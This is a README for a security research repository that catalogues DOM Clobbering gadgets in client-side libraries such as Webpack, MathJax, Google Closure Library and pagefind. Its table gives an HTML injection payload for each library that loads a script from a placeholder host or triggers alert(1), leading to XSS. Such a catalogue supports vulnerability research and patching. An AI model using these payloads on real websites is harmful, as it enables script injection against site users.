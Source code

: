 # DOM Clobbering Collection

In this repo, we collect a list of client-side libraries that are either vulnerable to HTML injection or contain DOM Clobbering gadgets that lead to severe consequences, e.g., XSS.

## HTML Injection

## DOM Clobbering Gadgets

| Library | Version | Payloads | Impact | Found By |
|:-------:|:-------:|----------|:------:|:--------:|
| [AddToAny](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/addtoany.md) |  | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk |
| [doomcaptcha](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/doomcaptcha.md) |  | ```<img name=currentScript label="<script>alert(1)</script>"></img>``` | XSS | TheHulk |
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe>``` | XSS | TheHulk |
| [Google Closure Library](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-closure-library.md) | v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax.md) | 2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 3.2.2 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk |
| [pagefind](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/pagefind.md) | v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk |
| [steal](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/steal.md) | 2.3.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx">``` | XSS | TheHulk |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 5.x.x | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk |
